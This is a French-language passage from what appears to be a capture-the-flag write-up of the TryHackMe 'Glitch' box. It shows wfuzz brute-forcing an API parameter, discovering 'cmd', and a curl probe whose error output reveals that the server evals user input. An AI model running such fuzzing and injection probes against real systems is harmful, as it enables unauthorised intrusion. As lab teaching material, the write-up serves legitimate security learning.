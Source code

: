 ```javascript
        }
      });
    });
  });
})();
```

Dans la page principale on remarque qu'il y un fichier en javascript.    
On regarde dans le fichier en javascript.  
Dans le fichier javascript on remarque qu'un fichier un entrée API qui est \/api\/items   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST --sc 200 http://glitch.thm/api/items\?FUZZ\=1
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://glitch.thm/api/items?FUZZ=1
Total requests: 3132

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000358:   200        0 L      2 W        25 Ch       "cmd"                                                                                                                                                                        

Total time: 0
Processed Requests: 3132
Filtered Requests: 3131
Requests/sec.: 0
```

On brute force l'argument de l'api.   
Avec un fuzzer on le brute force.    
Le seule argument de l'api que l'on trouve est cmd.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$  curl -X POST http://glitch.thm/api/items\?cmd\=ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```